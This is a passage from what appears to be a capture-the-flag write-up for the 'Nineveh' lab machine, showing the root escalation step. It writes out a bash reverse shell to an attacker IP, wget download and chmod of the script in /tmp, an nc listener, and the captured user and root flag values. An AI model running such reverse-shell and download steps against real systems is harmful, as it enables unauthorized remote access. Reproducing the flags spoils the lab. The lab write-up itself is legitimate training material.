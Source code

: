 ```txt
easily take advantage of this.
```

create a bash file

```bash
# local host
vim update
```

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/8080 0>&1
```

Download update bash
```bash
# remote host
cd /tmp
wget http://10.10.14.6/update
chmod +x update
chmod 777 update
# build up a listener
nc -lnvp 8080
```

![[Nineveh-20.png]]

And we will wait to get the root shell

```bash
# get the root privilege
id
whoami
# user flag
cat /home/amrois/user.txt
# flag
5eaf63932e96f4761992c11f27dff98b
```

![[Nineveh-21.png]]

```bash
# root flag
cat root.txt
# flag
5abaf9d984ffb5bea800b76f3b59ddb1
```

![[Nineveh-22.png]]
